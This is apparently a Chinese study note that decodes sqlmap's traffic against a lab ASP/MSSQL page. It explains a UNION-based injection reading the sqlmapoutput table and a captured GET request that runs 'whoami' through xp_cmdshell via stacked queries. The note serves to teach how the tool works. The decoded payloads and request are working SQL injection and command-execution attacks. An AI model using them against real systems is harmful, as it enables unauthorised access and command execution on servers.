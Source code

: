 解码为：

id=-9017 UNION ALL SELECT <span data-type="text" style="color: var(--b3-font-color12);">CHAR(113)+CHAR(120)+CHAR(107)+CHAR(122)+CHAR(113)+</span><span data-type="text" style="color: var(--b3-font-color11);">ISNULL(CAST(</span><span data-type="text" style="color: var(--b3-font-color8);">COUNT(data)</span> <span data-type="text" style="color: var(--b3-font-color11);">AS VARCHAR(4000)),CHAR(32))</span><span data-type="text" style="color: var(--b3-font-color12);">+CHAR(113)+CHAR(122)+CHAR(98)+CHAR(98)+CHAR(113),NULL,NULL </span><span data-type="text" style="color: var(--b3-font-color6);">FROM sqlmapoutput</span>-- HLnQ

解析：

id=-9017 union all select  qxkzq isnull(cast(<span data-type="text" style="color: var(--b3-font-color8);">count(data</span>) as varchar(4000)), )qzbbq,NULL,NULL<span data-type="text" style="color: var(--b3-font-color6);"> from sqlmapoutput</span>-- HLnQ

<span data-type="text" style="color: var(--b3-font-color8);">COUNT(data)</span> 聚合函数，计算`sqlmapoutput`​表中`data`​列的非NULL值的数量。

<span data-type="text" style="color: var(--b3-font-color11);">ISNULL(CAST(COUNT(data) AS VARCHAR(4000)),CHAR(32)) </span>将COUNT(data)的结果<span data-type="text" style="color: var(--b3-font-color9);">转换为字符串</span>（如果它不为NULL），如果为NULL，则返回一个空格（CHAR(32)）

<span data-type="text" style="color: var(--b3-font-color6);"> from sqlmapoutput</span>： 查询的数据来源是`sqlmapoutput`​表

<span data-type="text" style="color: var(--b3-font-color12);">CHAR(113)+CHAR(120)+CHAR(107)+CHAR(122)+CHAR(113)+</span><span data-type="text" style="color: var(--b3-font-color11);">ISNULL(CAST(</span><span data-type="text" style="color: var(--b3-font-color8);">COUNT(data)</span> <span data-type="text" style="color: var(--b3-font-color11);">AS VARCHAR(4000)),CHAR(32))</span><span data-type="text" style="color: var(--b3-font-color12);">+CHAR(113)+CHAR(122)+CHAR(98)+CHAR(98)+CHAR(113)</span>：结构为：'qxkzq\<data列行数\>qzbbq'

总结：从`sqlmapoutput`​表中获取`data`​列的行数，并将这个行数嵌入到一个特定的字符串中（`'qxkzq<data列行数>qzbbq'`​）通过联合查询返回。

6. ‍

```sql
GET /less-2.asp?id=1%3BDECLARE%20%40fwiq%20VARCHAR%288000%29%3BSET%20%40fwiq%3D0x77686f616d69%3BINSERT%20INTO%20sqlmapoutput%28data%29%20EXEC%20master..xp_cmdshell%20%40fwiq-- HTTP/1.1
Cache-Control: no-cache
User-Agent: sqlmap/1.8.1.6#dev (https://sqlmap.org)
Cookie: ASPSESSIONIDQSSCDRTB=JNGDBDKAMKODPPBFDLKHPKFG
Host: 192.168.100.225
Accept: */*
Accept-Encoding: gzip, deflate, br
Connection: keep-alive


```

解码为：

id=1;<span data-type="text" style="color: var(--b3-font-color8);">DECLARE @fwiq VARCHAR(8000);</span><span data-type="text" style="color: var(--b3-font-color11);">SET @fwiq=0x77686f616d69;</span><span data-type="text" style="color: var(--b3-font-color6);">INSERT INTO sqlmapoutput(data) EXEC master..xp_cmdshell @fwiq</span>--
